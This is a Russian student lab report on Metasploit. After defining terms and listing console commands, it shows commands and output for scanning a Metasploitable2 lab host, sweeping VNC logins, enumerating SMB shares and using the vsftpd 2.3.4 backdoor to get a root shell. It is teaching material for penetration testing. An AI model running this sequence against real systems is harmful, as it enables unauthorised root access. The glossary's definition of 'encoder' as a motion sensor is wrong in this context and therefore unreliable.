\documentclass[10pt,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}

\usepackage[left=1.8cm, right=1cm, top=0.8cm, bottom=2cm, 
bindingoffset=0cm]{geometry}

\author{Климов Сергей}
\title{Лабораторная работа №5.\\
	Инструмент тестов на проникновение Metasploit}
\begin{document}
	\maketitle
	\renewcommand{\thesection}{\arabic{section}}
	\tableofcontents
	\pagebreak
	
	\setcounter{totalnumber}{10}
	\setcounter{topnumber}{10}
	\setcounter{bottomnumber}{10}
	\renewcommand{\topfraction}{1}
	\renewcommand{\textfraction}{0}
	
	\section{Цель работы}
		Ознакомление с инструментом тестов на проникновение Metasploit.
	\section{Изучение базовых понятий}
		\begin{itemize}
			\item auxiliary - сканнер, использующий уязвимости системы для получения 
			сведений об этой системе.%
			\item payload - часть программы, выполняющая вредоносные действия, 
			например нарушение целостности данных, слежка за пользователем и т.д.%
			\item exploit - фрагмент програмного кода который, используя
			возможности предоставляемые ошибкой, отказом или уязвимостью, ведёт к
			повышению привилегий или отказу в обслуживании компьютерной системы.
			\item shellcode - двоичный исполняемый код, который обычно передаёт 
			управление командному процессору, например '/bin/sh' в Unix shell, 
			'command.com' в MS-DOS и 'cmd.exe' в операционных системах Microsoft 
			Windows. Шелл-код может быть использован как полезная нагрузка эксплойта, 
			обеспечивающая взломщику доступ к командной оболочке в компьютерной 
			системе.
			\item nop - инструкция процессора на языке ассемблера, или команда 
			протокола, которая предписывает ничего не делать (от слова <<no 
			operation>>).
			\item encoder - устройство преобразующее линейное или угловое перемещение 
			в последовательность сигналов, позволяющих определить величину 
			перемещения. 
		\end{itemize}
		
		\section{Список команд msfconsole}
		При вводе команды help в msfconsole выводится достаточно большой список 
		команд:
		\begin{lstlisting}
msf > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    advanced      Displays advanced options for one or more modules
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    get           Gets the value of a context-specific variable
    getg          Gets the value of a global variable
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more modules
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    options       Displays global options or for one or more modules
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    rename_job    Rename a job
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a context-specific variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more context-specific variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers


Database Backend Commands
=========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces


		\end{lstlisting}
		
		Рассмотрим некоторые из этих команд:
		\begin{itemize}
			\item db\_connect - подключение к удаленной базе данных;
			\item db\_disconnect - отключение от удаленной базы данных;
			\item hosts - список всех хостов в БД;
			\item use - загрузка модуля по его имени;
			\item search - поиск модуля и его описания;
			\item info - вывод информации о модуле;
			\item load - загрузка плагина;
			\item show - вывод списка модулей.
		\end{itemize}
	
	\section{Подключение доступа к VNC-серверу и получение доступа к консоли}
		Атакующая машина - (kali linux) - 169.254.120.101. Атакуемая машина 
		(Metasploitable2) - 169.254.120.103.
		
		Просканируем порты на атакуемой машине при помощи утилиты nmap:
		\begin{lstlisting}
root@kali:~# nmap 169.254.120.103 -sV

Starting Nmap 7.01 ( https://nmap.org ) at 2016-05-14 16:48 MSK
Nmap scan report for 169.254.120.103
Host is up (0.67s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  tcpwrapped
513/tcp  open  tcpwrapped
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  tcpwrapped
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.79 seconds

		\end{lstlisting}
		
		Видим, что сервер VNC запущен на открытом порте 5900.
		\begin{lstlisting}
5900/tcp open  vnc         VNC (protocol 3.3)
		\end{lstlisting}
		
		Осуществим поиск модулей для использования уязвимостей в VNC сервере:
		\begin{lstlisting}
msf > search vnc

Matching Modules
================

   Name                                                 Disclosure Date  Rank       Description
   ----                                                 ---------------  ----       -----------
   auxiliary/admin/vnc/realvnc_41_bypass                2006-05-15       normal     RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                       normal     VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                   normal     VNC Authentication None Detection
   auxiliary/server/capture/vnc                                          normal     Authentication Capture: VNC
   exploit/multi/misc/legend_bot_exec                   2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/vnc/vnc_keyboard_exec                  2015-07-10       great      VNC Keyboard Remote Code Execution
   exploit/windows/vnc/realvnc_client                   2001-01-29       normal     RealVNC 3.3.7 Client Buffer Overflow
   exploit/windows/vnc/ultravnc_client                  2006-04-04       normal     UltraVNC 1.0.1 Client Buffer Overflow
   exploit/windows/vnc/ultravnc_viewer_bof              2008-02-06       normal     UltraVNC 1.0.2 Client (vncviewer.exe) Buffer Overflow
   exploit/windows/vnc/winvnc_http_get                  2001-01-29       average    WinVNC Web Server GET Overflow
   payload/windows/vncinject/bind_hidden_ipknock_tcp                     normal     VNC Server (Reflective Injection), Hidden Bind Ipknock TCP Stager
   payload/windows/vncinject/bind_hidden_tcp                             normal     VNC Server (Reflective Injection), Hidden Bind TCP Stager
   payload/windows/vncinject/bind_ipv6_tcp                               normal     VNC Server (Reflective Injection), Bind IPv6 TCP Stager (Windows x86)
   payload/windows/vncinject/bind_ipv6_tcp_uuid                          normal     VNC Server (Reflective Injection), Bind IPv6 TCP Stager with UUID Support (Windows x86)
   payload/windows/vncinject/bind_nonx_tcp                               normal     VNC Server (Reflective Injection), Bind TCP Stager (No NX or Win7)
   payload/windows/vncinject/bind_tcp                                    normal     VNC Server (Reflective Injection), Bind TCP Stager (Windows x86)
   payload/windows/vncinject/bind_tcp_rc4                                normal     VNC Server (Reflective Injection), Bind TCP Stager (RC4 Stage Encryption)
   payload/windows/vncinject/bind_tcp_uuid                               normal     VNC Server (Reflective Injection), Bind TCP Stager with UUID Support (Windows x86)
   payload/windows/vncinject/find_tag                                    normal     VNC Server (Reflective Injection), Find Tag Ordinal Stager
   payload/windows/vncinject/reverse_hop_http                            normal     VNC Server (Reflective Injection), Reverse Hop HTTP/HTTPS Stager
   payload/windows/vncinject/reverse_http                                normal     VNC Server (Reflective Injection), Windows Reverse HTTP Stager (wininet)
   payload/windows/vncinject/reverse_http_proxy_pstore                   normal     VNC Server (Reflective Injection), Reverse HTTP Stager Proxy
   payload/windows/vncinject/reverse_ipv6_tcp                            normal     VNC Server (Reflective Injection), Reverse TCP Stager (IPv6)
   payload/windows/vncinject/reverse_nonx_tcp                            normal     VNC Server (Reflective Injection), Reverse TCP Stager (No NX or Win7)
   payload/windows/vncinject/reverse_ord_tcp                             normal     VNC Server (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   payload/windows/vncinject/reverse_tcp                                 normal     VNC Server (Reflective Injection), Reverse TCP Stager
   payload/windows/vncinject/reverse_tcp_allports                        normal     VNC Server (Reflective Injection), Reverse All-Port TCP Stager
   payload/windows/vncinject/reverse_tcp_dns                             normal     VNC Server (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/vncinject/reverse_tcp_rc4                             normal     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption)
   payload/windows/vncinject/reverse_tcp_rc4_dns                         normal     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS)
   payload/windows/vncinject/reverse_tcp_uuid                            normal     VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support
   payload/windows/vncinject/reverse_winhttp                             normal     VNC Server (Reflective Injection), Windows Reverse HTTP Stager (winhttp)
   payload/windows/x64/vncinject/bind_ipv6_tcp                           normal     Windows x64 VNC Server (Reflective Injection), Windows x64 IPv6 Bind TCP Stager
   payload/windows/x64/vncinject/bind_ipv6_tcp_uuid                      normal     Windows x64 VNC Server (Reflective Injection), Windows x64 IPv6 Bind TCP Stager with UUID Support
   payload/windows/x64/vncinject/bind_tcp                                normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Bind TCP Stager
   payload/windows/x64/vncinject/bind_tcp_uuid                           normal     Windows x64 VNC Server (Reflective Injection), Bind TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_http                            normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_https                           normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_tcp                             normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
   payload/windows/x64/vncinject/reverse_tcp_uuid                        normal     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_winhttp                         normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
   payload/windows/x64/vncinject/reverse_winhttps                        normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
   post/multi/gather/remmina_creds                                       normal     UNIX Gather Remmina Credentials
   post/osx/gather/enum_chicken_vnc_profile                              normal     OS X Gather Chicken of the VNC Profile
   post/windows/gather/credentials/mremote                               normal     Windows Gather mRemote Saved Password Extraction
   post/windows/gather/credentials/vnc                                   normal     Windows Gather VNC Password Extraction


		\end{lstlisting}
		Запустим модуль auxiliary/scanner/vnc/vnc\_login, назначим целевой хост и запустим exploit для получения доступа к хосту:
		\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login 
msf auxiliary(vnc_login) > set RHOSTS 169.254.120.103
RHOSTS => 169.254.120.103
msf auxiliary(vnc_login) > exploit 

[*] 169.254.120.103:5900 - Starting VNC login sweep
[+] 169.254.120.103:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

		\end{lstlisting}
		Запустим vncviewer и войдем при помощи полученного пароля:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 169.254.120.103:5900
[*] exec: vncviewer 169.254.120.103:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using shared memory PutImage
ShmCleanup called

		\end{lstlisting}
		Результат представлен на рисунке~\ref{ris:vncviewerLogin}.
		\begin{figure}[h]
			\centering
			
\includegraphics[width=0.9\textwidth]{imgs/vnc.png}
			\caption{Получение доступа к консоли при помощи vncviewer}
			\label{ris:vncviewerLogin}
		\end{figure}	
		
		
	\section{Получение списка директорий в общем доступе по протоколу SMB}
	
		Осуществим поиск модулей для использования уязвимостей в клиенте SMB:
		\begin{lstlisting}
		msf auxiliary(vnc_login) > search smb

Matching Modules
================

   Name                                                            Disclosure Date  Rank       Description
   ----                                                            ---------------  ----       -----------
   auxiliary/admin/mssql/mssql_enum_domain_accounts                                 normal     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli                            normal     Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_ntlm_stealer                                         normal     Microsoft SQL Server NTLM Stealer
   auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                                    normal     Microsoft SQL Server SQLi NTLM Stealer
   auxiliary/admin/oracle/ora_ntlm_stealer                         2009-04-07       normal     Oracle SMB Relay Code Execution
   auxiliary/admin/smb/check_dir_file                                               normal     SMB Scanner Check File/Directory Utility
   auxiliary/admin/smb/delete_file                                                  normal     SMB File Delete Utility
   auxiliary/admin/smb/download_file                                                normal     SMB File Download Utility
   auxiliary/admin/smb/list_directory                                               normal     SMB Directory Listing Utility
   auxiliary/admin/smb/psexec_command                                               normal     Microsoft Windows Authenticated Administration Utility
   auxiliary/admin/smb/psexec_ntdsgrab                                              normal     PsExec NTDS.dit And SYSTEM Hive Download Utility
   auxiliary/admin/smb/samba_symlink_traversal                                      normal     Samba Symlink Directory Traversal
   auxiliary/admin/smb/upload_file                                                  normal     SMB File Upload Utility
   auxiliary/docx/word_unc_injector                                                 normal     Microsoft Word UNC Path Injector
   auxiliary/dos/samba/read_nttrans_ea_list                                         normal     Samba read_nttrans_ea_list Integer Overflow
   auxiliary/dos/sap/sap_soap_rfc_eps_delete_file                                   normal     SAP SOAP EPS_DELETE_FILE File Deletion
   auxiliary/dos/windows/smb/ms05_047_pnp                                           normal     Microsoft Plug and Play Service Registry Overflow
   auxiliary/dos/windows/smb/ms06_035_mailslot                     2006-07-11       normal     Microsoft SRV.SYS Mailslot Write Corruption
   auxiliary/dos/windows/smb/ms06_063_trans                                         normal     Microsoft SRV.SYS Pipe Transaction No Null
   auxiliary/dos/windows/smb/ms09_001_write                                         normal     Microsoft SRV.SYS WriteAndX Invalid DataOffset
   auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pidhigh                        normal     Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference
   auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff                           normal     Microsoft SRV2.SYS SMB2 Logoff Remote Kernel NULL Pointer Dereference
   auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop                       normal     Microsoft Windows 7 / Server 2008 R2 SMB Client Infinite Loop
   auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow                         normal     Microsoft Windows SRV.SYS SrvSmbQueryFsInformation Pool Overflow DoS
   auxiliary/dos/windows/smb/ms11_019_electbowser                                   normal     Microsoft Windows Browser Pool DoS
   auxiliary/dos/windows/smb/rras_vls_null_deref                   2006-06-14       normal     Microsoft RRAS InterfaceAdjustVLSPointers NULL Dereference
   auxiliary/dos/windows/smb/vista_negotiate_stop                                   normal     Microsoft Vista SP0 SMB Negotiate Protocol DoS
   auxiliary/fuzzers/smb/smb2_negotiate_corrupt                                     normal     SMB Negotiate SMB2 Dialect Corruption
   auxiliary/fuzzers/smb/smb_create_pipe                                            normal     SMB Create Pipe Request Fuzzer
   auxiliary/fuzzers/smb/smb_create_pipe_corrupt                                    normal     SMB Create Pipe Request Corruption
   auxiliary/fuzzers/smb/smb_negotiate_corrupt                                      normal     SMB Negotiate Dialect Corruption
   auxiliary/fuzzers/smb/smb_ntlm1_login_corrupt                                    normal     SMB NTLMv1 Login Request Corruption
   auxiliary/fuzzers/smb/smb_tree_connect                                           normal     SMB Tree Connect Request Fuzzer
   auxiliary/fuzzers/smb/smb_tree_connect_corrupt                                   normal     SMB Tree Connect Request Corruption
   auxiliary/gather/konica_minolta_pwd_extract                                      normal     Konica Minolta Password Extractor
   auxiliary/scanner/sap/sap_smb_relay                                              normal     SAP SMB Relay Abuse
   auxiliary/scanner/sap/sap_soap_rfc_eps_get_directory_listing                     normal     SAP SOAP RFC EPS_GET_DIRECTORY_LISTING Directories Information Disclosure
   auxiliary/scanner/sap/sap_soap_rfc_pfl_check_os_file_existence                   normal     SAP SOAP RFC PFL_CHECK_OS_FILE_EXISTENCE File Existence Check
   auxiliary/scanner/sap/sap_soap_rfc_rzl_read_dir                                  normal     SAP SOAP RFC RZL_READ_DIR_LOCAL Directory Contents Listing
   auxiliary/scanner/smb/pipe_auditor                                               normal     SMB Session Pipe Auditor
   auxiliary/scanner/smb/pipe_dcerpc_auditor                                        normal     SMB Session Pipe DCERPC Auditor
   auxiliary/scanner/smb/psexec_loggedin_users                                      normal     Microsoft Windows Authenticated Logged In Users Enumeration
   auxiliary/scanner/smb/smb2                                                       normal     SMB 2.0 Protocol Detection
   auxiliary/scanner/smb/smb_enum_gpp                                               normal     SMB Group Policy Preference Saved Passwords Enumeration
   auxiliary/scanner/smb/smb_enumshares                                             normal     SMB Share Enumeration
   auxiliary/scanner/smb/smb_enumusers                                              normal     SMB User Enumeration (SAM EnumUsers)
   auxiliary/scanner/smb/smb_enumusers_domain                                       normal     SMB Domain User Enumeration
   auxiliary/scanner/smb/smb_login                                                  normal     SMB Login Check Scanner
   auxiliary/scanner/smb/smb_lookupsid                                              normal     SMB SID User Enumeration (LookupSid)
   auxiliary/scanner/smb/smb_uninit_cred                                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   auxiliary/scanner/smb/smb_version                                                normal     SMB Version Detection
   auxiliary/scanner/snmp/snmp_enumshares                                           normal     SNMP Windows SMB Share Enumeration
   auxiliary/server/capture/smb                                                     normal     Authentication Capture: SMB
   auxiliary/server/http_ntlmrelay                                                  normal     HTTP Client MS Credential Relayer
   auxiliary/spoof/nbns/nbns_response                                               normal     NetBIOS Name Service Spoofer
   exploit/linux/samba/chain_reply                                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/multi/http/struts_code_exec_classloader                 2014-03-06       manual     Apache Struts ClassLoader Manipulation Remote Code Execution
   exploit/multi/ids/snort_dce_rpc                                 2007-02-19       good       Snort 2 DCE/RPC Preprocessor Buffer Overflow
   exploit/netware/smb/lsass_cifs                                  2007-01-21       average    Novell NetWare LSASS CIFS.NLM Driver Stack Buffer Overflow
   exploit/osx/browser/safari_file_policy                          2011-10-12       normal     Apple Safari file:// Arbitrary Code Execution
   exploit/windows/browser/java_ws_arginject_altjvm                2010-04-09       excellent  Sun Java Web Start Plugin Command Line Argument Injection
   exploit/windows/browser/java_ws_double_quote                    2012-10-16       excellent  Sun Java Web Start Double Quote Injection
   exploit/windows/browser/java_ws_vmargs                          2012-02-14       excellent  Sun Java Web Start Plugin Command Line Argument Injection
   exploit/windows/browser/ms10_022_ie_vbscript_winhlp32           2010-02-26       great      MS10-022 Microsoft Internet Explorer Winhlp32.exe MsgBox Code Execution
   exploit/windows/fileformat/ms13_071_theme                       2013-09-10       excellent  MS13-071 Microsoft Windows Theme File Handling Arbitrary Code Execution
   exploit/windows/fileformat/ms14_060_sandworm                    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/fileformat/ursoft_w32dasm                       2005-01-24       good       URSoft W32Dasm Disassembler Function Buffer Overflow
   exploit/windows/fileformat/vlc_smb_uri                          2009-06-24       great      VideoLAN Client (VLC) Win32 smb:// URI Buffer Overflow
   exploit/windows/http/generic_http_dll_injection                 2015-03-04       manual     Generic Web Application DLL Injection
   exploit/windows/misc/hp_dataprotector_cmd_exec                  2014-11-02       excellent  HP Data Protector 8.10 Remote Command Execution
   exploit/windows/oracle/extjob                                   2007-01-01       excellent  Oracle Job Scheduler Named Pipe Command Execution
   exploit/windows/scada/ge_proficy_cimplicity_gefebt              2014-01-23       excellent  GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   exploit/windows/smb/generic_smb_dll_injection                   2015-03-04       manual     Generic DLL Injection From Shared Resource
   exploit/windows/smb/group_policy_startup                        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   exploit/windows/smb/ipass_pipe_exec                             2015-01-21       excellent  IPass Control Pipe Remote Command Execution
   exploit/windows/smb/ms03_049_netapi                             2003-11-11       good       MS03-049 Microsoft Workstation Service NetAddAlternateComputerName Overflow
   exploit/windows/smb/ms04_007_killbill                           2004-02-10       low        MS04-007 Microsoft ASN.1 Library Bitstring Heap Overflow
   exploit/windows/smb/ms04_011_lsass                              2004-04-13       good       MS04-011 Microsoft LSASS Service DsRolerUpgradeDownlevelServer Overflow
   exploit/windows/smb/ms04_031_netdde                             2004-10-12       good       MS04-031 Microsoft NetDDE Service Overflow
   exploit/windows/smb/ms05_039_pnp                                2005-08-09       good       MS05-039 Microsoft Plug and Play Service Overflow
   exploit/windows/smb/ms06_025_rasmans_reg                        2006-06-13       good       MS06-025 Microsoft RRAS Service RASMAN Registry Overflow
   exploit/windows/smb/ms06_025_rras                               2006-06-13       average    MS06-025 Microsoft RRAS Service Overflow
   exploit/windows/smb/ms06_040_netapi                             2006-08-08       good       MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow
   exploit/windows/smb/ms06_066_nwapi                              2006-11-14       good       MS06-066 Microsoft Services nwapi32.dll Module Exploit
   exploit/windows/smb/ms06_066_nwwks                              2006-11-14       good       MS06-066 Microsoft Services nwwks.dll Module Exploit
   exploit/windows/smb/ms06_070_wkssvc                             2006-11-14       manual     MS06-070 Microsoft Workstation Service NetpManageIPCConnect Overflow
   exploit/windows/smb/ms07_029_msdns_zonename                     2007-04-12       manual     MS07-029 Microsoft DNS RPC Service extractQuotedChar() Overflow (SMB)
   exploit/windows/smb/ms08_067_netapi                             2008-10-28       great      MS08-067 Microsoft Server Service Relative Path Stack Corruption
   exploit/windows/smb/ms09_050_smb2_negotiate_func_index          2009-09-07       good       MS09-050 Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference
   exploit/windows/smb/ms10_046_shortcut_icon_dllloader            2010-07-16       excellent  Microsoft Windows Shell LNK Code Execution
   exploit/windows/smb/ms10_061_spoolss                            2010-09-14       excellent  MS10-061 Microsoft Print Spooler Service Impersonation Vulnerability
   exploit/windows/smb/ms15_020_shortcut_icon_dllloader            2015-03-10       excellent  Microsoft Windows Shell LNK Code Execution
   exploit/windows/smb/netidentity_xtierrpcpipe                    2009-04-06       great      Novell NetIdentity Agent XTIERRPCPIPE Named Pipe Buffer Overflow
   exploit/windows/smb/psexec                                      1999-01-01       manual     Microsoft Windows Authenticated User Code Execution
   exploit/windows/smb/psexec_psh                                  1999-01-01       manual     Microsoft Windows Authenticated Powershell Command Execution
   exploit/windows/smb/smb_relay                                   2001-03-31       excellent  MS08-068 Microsoft Windows SMB Relay Code Execution
   exploit/windows/smb/timbuktu_plughntcommand_bof                 2009-06-25       great      Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   post/linux/busybox/smb_share_root                                                normal     BusyBox SMB Sharing
   post/linux/gather/mount_cifs_creds                                               normal     Linux Gather Saved mount.cifs/mount.smbfs Credentials
   post/windows/escalate/droplnk                                                    normal     Windows Escalate SMB Icon LNK Dropper
   post/windows/gather/credentials/gpp                                              normal     Windows Gather Group Policy Preference Saved Passwords
   post/windows/gather/enum_shares                                                  normal     Windows Gather SMB Share Enumeration via Registry
   post/windows/gather/netlm_downgrade                                              normal     Windows NetLM Downgrade Attack
   post/windows/gather/word_unc_injector                                            normal     Windows Gather Microsoft Office Word UNC Path Injector


		\end{lstlisting}
		Используем exploit smb\_enumshares:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > set RHOSTS 169.254.120.103
RHOSTS => 169.254.120.103
msf auxiliary(smb_enumshares) > exploit

[+] 169.254.120.103:139 - print$ - (DISK) Printer Drivers
[+] 169.254.120.103:139 - tmp - (DISK) oh noes!
[+] 169.254.120.103:139 - opt - (DISK) 
[+] 169.254.120.103:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 169.254.120.103:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

		\end{lstlisting}
		
		Список директорий, доступных по протоколу SMB:tmp и opt.

	\section{Получение консоли используя уязвимость в vsftpd}
	
		Осуществим поиск модулей для использования уязвимостей в vsftpd:
		\begin{lstlisting}
		msf auxiliary(smb_enumshares) > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
		
		\end{lstlisting}	
		Используем найденный exploit:		
		\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set RHOST 169.254.120.103
RHOST => 169.254.120.103
msf exploit(vsftpd_234_backdoor) > exploit 

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0 gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.2.15:33360 -> 169.254.120.103:6200) at 2016-05-14 17:33:31 +0300

ls -l
total 89
drwxr-xr-x   2 0 root  4096 May 13  2012 bin
drwxr-xr-x   4 0 root  1024 May 13  2012 boot
lrwxrwxrwx   1 0 root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  14 0 root 13480 Mar 29 02:06 dev
drwxr-xr-x  95 0 root  4096 Mar 28 05:33 etc
drwxr-xr-x   6 0 root  4096 Apr 16  2010 home
drwxr-xr-x   2 0 root  4096 Mar 16  2010 initrd
lrwxrwxrwx   1 0 root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x  13 0 root  4096 May 13  2012 lib
drwx------   2 0 root 16384 Mar 16  2010 lost+found
drwxr-xr-x   4 0 root  4096 Mar 16  2010 media
drwxr-xr-x   3 0 root  4096 Apr 28  2010 mnt
-rw-------   1 0 root 13752 Mar 28 05:33 nohup.out
drwxr-xr-x   2 0 root  4096 Mar 16  2010 opt
dr-xr-xr-x 111 0 root     0 Mar 28 05:33 proc
